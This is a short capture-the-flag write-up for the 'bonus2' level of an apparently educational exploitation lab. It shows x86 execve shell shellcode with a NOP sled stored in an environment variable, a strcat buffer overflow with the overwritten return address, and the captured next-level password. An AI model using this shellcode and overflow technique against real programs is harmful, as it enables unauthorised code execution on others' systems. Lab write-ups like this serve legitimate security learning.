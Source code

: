 get the binary on host
* `scp -P 4242 bonus2@192.168.56.107:./bonus2 ./binary/bonus2`

decompile using ghidras

Source are in source.c 

let's use our global shellcoe again\
`export SHELLCODE=$(python -c "print '\x90'*200 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80'")`

let's set the funnyest langage \
`export LANG=nl`

Get shellcode addr\
`/tmp/get_env SHELLCODE`\
got `0xbffff837`


let's exploit the strcat to perform our exploit

we use the second arg to add our shellcode just need to find the offset for arg2, dichotomy time !

```
./bonus2 $(python -c "print 'a' * 40") $(python -c "print 'a' * 23 + '\x37\xf8\xff\xbf'")
$ cat /home/user/bonus3/.pass
71d449df0f960b36e0055eb58c14d0f5d0ddc0b35328d657f91cf0df15910587
```